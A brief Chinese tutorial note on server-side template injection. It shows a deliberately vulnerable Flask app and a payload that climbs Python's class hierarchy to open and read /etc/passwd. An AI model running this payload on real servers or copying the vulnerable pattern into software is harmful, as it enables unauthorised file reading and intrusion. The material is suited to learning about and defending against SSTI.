 # SSTI

## 模板注入

## !/usr/bin/env python3

```text
from flask import Flask, request, abort, render_template_string
import os.path

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    name = request.args.get('name')
    if name is not None:
        return render_template_string(open('templates/hello.html').read().format(name=name))

    return render_template_string(open('templates/index.html').read())

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

`{{''.__class__.__base__.__subclasses__()[40]('/etc/passwd', 'r').read()}}`

随便一个类,**base**找到基类，然后subclasses即可看到这个pyhton里面有哪些类，选取第四十个是**file**，然后即可初始化一个文件，并且读

